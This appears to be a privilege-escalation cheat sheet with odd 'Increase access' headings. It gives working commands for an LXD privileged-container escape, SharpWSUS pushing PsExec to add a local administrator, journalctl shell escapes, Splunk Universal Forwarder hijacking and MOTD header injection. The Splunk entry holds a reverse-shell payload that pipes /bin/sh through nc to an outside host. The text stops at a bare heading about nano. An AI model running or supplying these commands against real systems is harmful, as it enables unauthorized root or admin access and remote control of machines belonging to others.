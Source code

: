 
### Increase access with lxd

```text
in attacker host
1. git clone https://github.com/saghul/lxd-alpine-builder.git
2. ./build-alpine
in victim host
3. Download built image
4. import ./alpine-v3.12-x86_64-20200621_2005.tar.gz --alias attacker
5. lxc init attacker tester -c security.privileged=true
6. lxc exec tester/bin/sh
```



### Increase access with WSUS

```text
SharpWSUS.exe create /payload:"C:\Users\user\Desktop\PsExec64.exe" /args:"-acceptula -s -d cmd.exe /c \"net localgroup administrator user /add\"" /title: title
SharpWSUS.exe approve /updateid:<id> /computername:dc.domain.dev /groupname:"title"

```
### Increase access in journalctl

The journalctl launcher must be run with more privileges such as sudo.

```text
journalctl
!/bin/sh
```

Or

```text
sudo journalctl
!/bin/sh
```

### Improve access with Splunk Universal Forward Hijacking

```text
python PySplunkWhisperer2_remote.py --lhost 10.10.10.5 --host 10.10.15.20 --username admin --password admin --payload '/bin/bash -c "rm /tmp/luci11;mkfifo /tmp/luci11;cat /tmp /luci11|/bin/sh -i 2>&1|nc 10.10.10.5 5555 >/tmp/luci11"'

```

### Increase access with 00-header file

```text
echo "id" >> 00-header
```

### Increase accessibility in nano
